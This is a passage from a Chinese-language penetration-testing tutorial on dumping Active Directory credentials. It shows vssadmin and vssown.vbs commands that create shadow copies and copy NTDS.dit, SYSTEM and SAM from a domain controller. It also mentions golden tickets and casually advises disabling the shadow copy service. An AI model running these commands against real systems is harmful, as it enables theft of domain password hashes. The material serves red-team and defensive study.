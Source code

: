 [![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e6f6b00-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e6f6b00-988f-1.png)  
如果已生成金票据，则可以使用它通过 Kerberos 与域控制器进行身份验证，而不是凭据。

VSSADMIN
--------

卷影拷贝服务是 Windows 命令行实用的程序，使管理员可以备份计算机，卷和文件，即使它们正在被操作系统使用。卷影复制作为服务运行，并要求将文件系统格式化为 NTFS，默认情况下所有现代操作系统都是如此。从 Windows 命令提示符执行以下操作将创建 C：驱动器的快照，以便用户通常无法访问这些文件以将其复制到另一个位置（本地文件夹，网络文件夹或可移动设备）。

```
vssadmin create shadow /for=C:
```

ps:  
关于 Volume Shadow Copy 服务：  
它是管理及执行用于备份和其他目的的磁碟区卷影。如果这个服务被停止，卷影将无法用于备份，备份可能会失败。如果这个服务被停用，依存它的服务无法启动。  
这一服务唯一的缺点是你需要为每一个卷影留出更多的磁盘空间，因为你必须在某处存储这些拷贝。  
它主要是用来备份数据库之类的数据，个人电脑确实一般用不上它。可以放心禁用！

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e7be114-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e7be114-988f-1.png)

由于 C：驱动器中的所有文件都已复制到另一个位置（HarddiskVolumeShadowCopy1），因此它们不会被操作系统直接使用，因此可以访问他并且复制到另一个位置。命令副本将 NTDS.DIT 和 SYSTEM 文件复制到名为 ShadowCopy 的本地驱动器上的新创建文件夹中。

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e876886-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e876886-988f-1.png)  
需要将这些文件从域控制器复制到另一个主机以进行进一步处理。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e94e646-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171016-5e94e646-988f-1.png)

vssown
------

与 vssadmin 程序类似，Tim Tomes 开发了 [vssown](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。

```
cscript vssown.vbs /start
cscript vssown.vbs /create c
cscript vssown.vbs /list
cscript vssown.vbs /delete
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180805171017-5ea8bfb8-988f-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180805171017-5ea8bfb8-988f-1.png)  
可以使用命令复制所需的文件。

```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\ntds\ntds.dit C:\vssown
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\system32\config\SYSTEM C:\vssown
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy11\windows\system32\config\SAM C:\vssown
```
